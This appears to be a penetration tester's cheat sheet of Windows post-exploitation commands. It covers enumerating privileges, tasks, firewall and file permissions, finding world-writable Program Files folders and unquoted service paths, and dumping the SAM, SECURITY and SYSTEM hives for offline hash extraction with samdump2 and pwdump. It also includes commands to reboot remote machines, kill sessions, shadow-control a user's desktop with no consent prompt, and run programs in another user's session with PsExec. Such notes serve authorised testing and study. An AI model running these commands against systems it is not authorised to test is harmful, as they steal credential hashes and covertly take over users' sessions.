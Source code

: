 #### tasklist run by current user

```tasklist -v```

-----


#### accesschk

*https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account?redirectedfrom=MSDN*

```accesschk.exe /accepteula -qwcu "Authenticated Users" *```

-----


#### firewall

```netsh firewall show state```

```netsh firewall show config```

-----


#### privs

```whoami /priv```

-----


#### scheduled tasks

```schtasks /query /fo list /v```

-----


#### file privs

```dir file.txt /s /p```

```icacls "c:\program files\whatever"```

-----


#### wmic

```wmic useraccount get name,sid```

```cmd /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """'```

-----


#### SAM dump

*SAM file: C:\Windows\system32\config*

*backup SAM reg key*

```reg save hklm\sam sam.save```

*backup security reg key*

```reg save hklm\security security.save```

*backup system reg key*

```reg save hklm\system system.save```

*On attacking machine:*

```samdump2 system.save sam.save```

```pwdump system.save sam.save```

-----


#### show files and folders in "Program Files" with (F)ull permissions set for "Everyone"

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
```

-----


#### show files and folders in "Program Files" with (F)ull permissions set for "BUILTIN\Users"

```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 
```

-----


#### reboot remote machine

```
shutdown /m \\DEV /r /t 1
```

-----


#### query remote desktop sessions

```
qwinsta /server:remote.host
```

```
query session /server:remote.host
```

-----


#### kill session ID 2

```
rwinsta /server:remote.host 2
```

-----


#### remote desktop, control session, no consent prompt

```
mstsc /v:DEV /shadow:2 /noConsentPrompt /control
```

-----


#### run notepad in logged in session ID 2

```
PsExec.exe -i 2 \\REMOTEMACHINE notepad
```

-----


#### run chrome browser, navigate to youtube in logged in session ID 2

```
psexec \\dev -i 2 "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" "https://www.youtube.com"
```

-----


